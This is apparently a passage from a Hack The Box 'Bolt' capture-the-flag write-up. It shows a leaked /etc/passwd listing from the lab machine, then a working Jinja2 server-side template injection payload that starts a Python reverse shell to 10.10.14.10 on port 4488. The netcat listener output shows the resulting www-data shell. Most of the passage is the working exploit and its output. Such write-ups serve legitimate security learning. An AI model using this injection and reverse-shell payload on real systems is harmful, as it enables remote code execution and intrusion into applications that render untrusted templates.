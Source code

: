 ```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin saned:x:117:123::/var/lib/saned:/usr/sbin/nologin nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false whoopsie:x:120:125::/nonexistent:/bin/false colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false eddie:x:1000:1000:Eddie Johnson,,,:/home/eddie:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin vboxadd:x:998:1::/var/run/vboxadd:/bin/false sshd:x:126:65534::/run/sshd:/usr/sbin/nologin mysql:x:127:133:MySQL Server,,,:/nonexistent:/bin/false clark:x:1001:1001:Clark Griswold,,,:/home/clark:/bin/bash postfix:x:128:134::/var/spool/postfix:/usr/sbin/nologin vmail:x:5000:5000::/var/mail:/usr/bin/nologin dovecot:x:129:136:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin dovenull:x:130:137:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
```

None of the reverse payloads from Hacktricks worked for me, however I found another Jinja2 reverse a python shell that did work! 

__Input:__ <br>
{% raw %}`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.10\",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}`{% endraw %}

__Output:__
```bash
┌──(void㉿void)-[/htb/bolt]
└─$ nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.114] 48068
/bin/sh: 0: can't access tty; job control turned off
$ id && hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bolt.htb
$ pwd
/var/www/demo
```
